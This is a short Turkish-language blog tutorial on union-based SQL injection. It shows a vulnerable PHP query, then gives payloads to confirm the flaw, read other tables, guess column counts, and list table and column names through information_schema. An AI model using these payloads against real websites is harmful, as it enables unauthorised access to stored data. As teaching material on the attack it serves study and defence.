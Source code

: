 ```yaml
---
ID: 239
title: Union SQL injection
author:
  - farukcan
date:
  - 2015-08-12 10:09:49
post_excerpt:
  - ""
layout: post
published: true
category:
  - Yazılım
tags:
  - sibergüvenlik
  - yazılım
dsq_thread_id:
  - "4135047264"
---
```


SQL injection açığı bulunan bir sitede , union komutu kullanılarak, diğer tablolardanda bilgi alma biçimidir.

sunucu tarafından şöyle bir açık olduğu varsayılsın
<pre>$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";</pre>
bu durumda
<pre>' OR true #</pre>
ile sql injection olduğundan emin olunur.
<pre>' UNION SELECT * FROM diger_tablo #</pre>
ile diğer tablolara erişibilir.

Fakat şöyle bir sorun çıkabilir : Tabloların kolon sayıların eşit olmaması.
<pre>' OR true UNION SELECT 1,2,3 #</pre>
Biçiminde tek tek deneyerek, mevcut tablonun kolon sayısını elde edebilirsiniz.
<h2>Not</h2>
Eğer tablo isimlerini ve kolonlarını öğrenmek isterseniz. Aşağıdaki sorgularla aynı yöntemi deneyebilirsiniz
<pre><code>select * from information_schema.`TABLES`</code></pre>
<pre><code>select TABLE_NAME from information_schema.`TABLES` </code></pre>
<pre><code>select TABLE_NAME,COLUMN_NAME from information_schema.`COLUMNS`</code></pre>

